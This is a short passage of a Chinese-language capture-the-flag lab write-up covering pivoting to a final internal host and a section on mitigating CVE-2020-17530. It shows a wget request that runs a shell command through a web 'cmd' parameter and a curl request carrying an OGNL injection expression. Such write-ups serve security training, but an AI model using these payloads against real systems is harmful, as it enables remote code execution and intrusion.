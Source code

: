 找到最后一层的主机 192.169.85.2
![](img/扫到169.85.2.png)

在会话4试探，对 192.169.85.2 进行curl wget等操作，尝试找到flag
```
#在边缘疯狂试探
curl http://192.169.85.2
wget http://192.169.85.2
#根据提示
wget 'http://192.169.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result
```
最后可以查看到最终flag!
![](img/最后一个flag.png)

## 入口漏洞缓解

该入口靶标所含有的CVE-2020-17530漏洞是一个OGNL表达式注入漏洞。攻击者可以通过构造恶意的OGNL表达式来执行任意代码。

1. 验证漏洞

![](img/发现入口.png)
构造一个OGNL表达式注入漏洞
```
curl "http://localhost:60221/?id=%25%7B'test'%2B(2000%2B20)%7D"
```
